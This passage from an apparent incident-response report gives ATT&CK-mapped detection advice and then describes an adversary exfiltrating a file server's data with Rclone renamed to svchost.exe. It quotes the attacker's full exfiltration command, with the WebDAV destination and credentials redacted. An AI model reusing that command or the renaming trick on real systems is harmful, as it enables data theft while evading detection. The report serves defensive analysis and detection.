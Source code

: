 #### Detection

**Monitor Network Traffic Content**  
Source: ATT&CK data component Network Traffic Content in the context of technique T1071

Monitor and analyze traffic patterns and packet inspection associated to protocol(s), leveraging SSL/TLS inspection for encrypted traffic, that do not follow the expected protocol standards and traffic flows (e.g extraneous packets that do not belong to established flows, gratuitous or anomalous traffic patterns, anomalous syntax, or structure). Consider correlation with process monitoring and command line to detect anomalous processes execution and command line arguments associated to traffic patterns (e.g. monitor anomalies in use of files that do not normally initiate connections for respective protocol(s)).

**Monitor Network Traffic Flow**  
Source: ATT&CK data component Network Traffic Flow in the context of technique T1071

Monitor and analyze traffic flows that do not follow the expected protocol standards and traffic flows (e.g extraneous packets that do not belong to established flows, or gratuitous or anomalous traffic patterns). Consider correlation with process monitoring and command line to detect anomalous processes execution and command line arguments associated to traffic patterns (e.g. monitor anomalies in use of files that do not normally initiate connections for respective protocol(s)).

**Monitor Scheduled Job Creation**  
Source: ATT&CK data component Scheduled Job Creation in the context of technique T1053

Monitor newly constructed scheduled jobs that may abuse task scheduling functionality to facilitate initial or recurring execution of malicious code.

### 2.10. Data exfiltration using Rclone

| **Timestamp** | Day 124, 22:35 |
|---|---|
| **Techniques** | T1567.002 Exfiltration to Cloud Storage to achieve TA0010 Exfiltration |
| **Tools** | Rclone |
| **Target tech** | Windows Server |

The adversary used the application Rclone to exfiltrate a large amount of data from the file server located in the victim's environment to the attacker's infrastructure. Rclone is a legitimate application used to upload data to for instance a cloud instance. Like many of the applications mentioned earlier in this report, it is also often abused by adversaries.

Similar to the renamed Chisel backdoor, the adversary had chosen to rename the Rclone executable to svchost.exe (thus named after a legit, existing application on Windows) and to drop this renamed executable in the victim's infrastructure. The parameters that were used to execute the command to upload data to a server belonging to the adversary, indicated that this svchost.exe was actually rclone.exe.

The command to exfiltrate data is depicted below:

```
svchost.exe copy --transfers 15 --stats=1m --progress --exclude *.exe --exclude *.dll --exclude *.msi --exclude *.iso --no-check-certificate --webdav-url *REDACTED*/ --webdav-vendor other --webdav-user *REDACTED* --webdav-pass *REDACTED* "D:\\*REDACTED" :webdav:/*REDACTED*
```
